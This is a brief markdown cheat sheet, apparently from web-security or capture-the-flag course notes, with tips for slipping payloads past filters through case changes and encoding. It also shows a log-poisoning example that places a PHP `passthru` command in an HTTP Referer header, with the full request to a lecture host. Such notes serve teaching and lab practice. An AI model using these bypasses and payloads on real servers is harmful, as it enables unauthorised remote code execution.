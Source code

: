 # General Tips
---
Modify your payloads slightly to bypass parsers / filters.
* Example: A filter that will reject `file:///` or `<script>` but accept `FilE:///` or `<ScRipT>`
---
Encode your payload: i.e. base64 or URL-encode
---
Look in source code:
* i.e. `Inspect -> View Source` to find flags. They might be hiding there as a comment etc.
---
HTTP Request Header Injection:
* If your payloads don't work as input to a form, url param etc. due to encoding/escaping then try inject into HTTP headers:
* Example: _Command Injection via. PHP log files_ | Payload: `<?php passthru('ls -la');?>`
``` HTML
GET /?q=/var/log/apache2/access.log HTTP/1.1
Host: logfile.lecture.ns.agency
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Referer: <?php passthru('ls -la');?>
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9,en-US;q=0.8,en-AU;q=0.7
Connection: close
```
---

